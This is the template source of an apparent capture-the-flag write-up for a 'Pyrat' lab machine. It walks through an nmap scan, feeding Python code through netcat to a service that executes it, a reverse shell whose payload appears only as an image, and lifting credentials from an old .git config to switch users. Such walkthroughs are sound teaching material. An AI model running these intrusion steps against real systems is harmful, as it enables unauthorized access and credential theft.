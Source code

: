 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let us start by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.209.122", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 09:23 CET
Nmap scan report for 10.10.209.122
Host is up (0.090s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
")}}

{{text("After visiting the site on port 8000, we are returned this.")}}

{{image("../../static/images/pyrat/000001.jpg")}}

{{text("I tried using Burp, but that didn't lead to anywhere. After that I used netcat to try and connect to this address. Since it is stated that <code class='bg-gray-300 rounded-md px-1'>a HTTP response leads to Python code vulnerability</code> I instantly tried to run python code.")}}

{{console("nc 10.10.209.122 8000", "l
name 'l' is not defined
test
name 'test' is not defined
print(2)
2
")}}

{{text("Since it worked, I got a python reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code> and tried to get it to run.")}}

{{image("../../static/images/pyrat/000002.jpg")}}

{{text("That worked and now we were the <code class='bg-gray-300 rounded-md px-1'>www-data</code> user.")}}

{{text("While looking through the system, I noticed a <code class='bg-gray-300 rounded-md px-1'>.git</code> directory inside of <code class='bg-gray-300 rounded-md px-1'>/opt/dev</code>.")}}

{{text("Challange description said that we have to <code class='bg-gray-300 rounded-md px-1'>explore into application's older version</code> so I tried to do that.")}}

{{text("Reading through the files inside <code class='bg-gray-300 rounded-md px-1'>.git</code> directory, we stumble across an old <code class='bg-gray-300 rounded-md px-1'>config</code> file that contains user credentials.")}}

{{console("cat config", "[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential 'https://github.com']
        username = think
        password = [REDACTED]")}}

{{text("We switch users to <code class='bg-gray-300 rounded-md px-1'>think</code> and using the newly acquired password we successfully log in.")}}

